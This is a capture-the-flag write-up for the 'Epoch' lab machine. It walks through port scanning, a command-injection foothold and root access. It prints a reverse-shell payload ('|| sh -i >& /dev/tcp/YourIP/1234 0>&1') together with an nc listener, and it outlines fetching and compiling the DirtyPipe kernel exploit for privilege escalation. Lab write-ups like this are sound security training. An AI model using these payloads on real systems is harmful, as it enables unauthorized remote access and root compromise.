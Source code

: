 <h1>writeup-Epoch</h1>
<img src="./img/logo.png" alt="logo" width="700">
<blockquote><h3>
    The room description suggests tha there is a vulnerable WebApplication, So let's start the machine and check out the WebApplication.
    The room also suggests Command Injection so maybe that's the vulnerability in the WebApplication.
</h3></blockquote>
<br>

<ol>
    <li>
        <h2>Reconnaissance</h2>
        <ul>
            <li>
                <h3>Port Scanning</h3>
                <ul>
                    Rustscan result :
                    <ul><code>
                        Open 10.10.215.48:22 - ssh<br>
                        Open 10.10.215.48:80 - http
                    </code></ul>
                </ul>
            </li>
            <li>
                <h3>SSH</h3>
                <ul><code>
                    OpenSSH 8.2p1 Ubuntu 4ubuntu0.4
                </code></ul>
            </li>
            <li>
                <h3>WebPage</h3>
                <ul>
                    <img src="./img/webPage.png" alt="webPage" width="500"><br>
                </ul>
            </li>
        </ul>
    </li><br>
    <li>
        <h2>Foothold</h2>
        <ul>
            <li>
                <h3>SSH</h3>
                <ul>Brute forcing ssh with hydra will definitely fail and it's not the main objective 
                    of this room so let's move on to the WebApplication.</ul>
            </li>
            <li>
                <h3>WebApplication</h3>
                <ul>
                    We will start with Command Injection because the room description suggests that.
                    Let's try some command injection tricks from <a href="https://book.hacktricks.xyz/pentesting-web/command-injection">hacktricks</a>. <br>
                    <img src="./img/webPage2.png" alt="webPage2" width="500"><br>
                    Now that we know command injection works, let's get a shell.
                    <ul>
                        <li>Step 1:
                            <ul>
                                Start a nc listener.<br>
                                command = <code>nc -lvnp 1234</code>
                            </ul>
                        </li>
                        <li>Step 2:
                            <ul>
                                Enter your reverse shell command in the input field with command injection vulnerability and click on <code>Convert</code> button.<br>
                                payload = <code>|| sh -i >& /dev/tcp/YourIP/1234 0>&1</code>
                                You got a reverse shell.
                            </ul>
                        </li>
                    </ul>
                    <h2>
                        You can find your flag using <code>env</code>.
                    </h2>
                </ul>
            </li>
        </ul>
    </li>
    <li>
        <h2>Root</h2>
        <ul>
            <li>
                <h3>Things i tried and didn't work :</h3>
                <ol>
                    <li>
                        <code>sudo -l</code>
                        <ul>
                            <code>sh: 2: sudo: not found</code>
                        </ul>
                    </li>
                    <li>
                        <code>find / -type f -perm -04000 2>/dev/null</code>
                        <ul>Nothing intresting here</ul>
                    </li>
                    <li>
                        crontab
                        <ul>
                            <code>No such file or directory</code>
                        </ul>
                    </li>
                </ol>
            </li>
            <li>
                <h3>Thing that did work :</h3>
                <ul>
                    <code>uname -a</code> will show you that this machine is running on <code>linux kernel version 5</code> which might be vulnerable to <code>DirtyPipe</code>.
                    So heres how we will exploit that.
                    <li>
                        Step 1:
                        <ul>Download <a href="https://www.exploit-db.com/exploits/50808">DirtyPipe</a> exploit code on your local machine.</ul>
                    </li>
                    <li>
                        Step 2:
                        <ul>Start python server on your machine and download the exploit on target machine in <code>/tmp</code> directory.</ul>
                    </li>
                    <li>
                        step 3:
                        <ul>
                            compile and execute the executable using <code>gcc</code>.
                        </ul>
                    </li>
                </ul>
                <img src="./img/root.png" alt="root" width="500">
            </li>
        </ul>
    </li><br>
</ol>
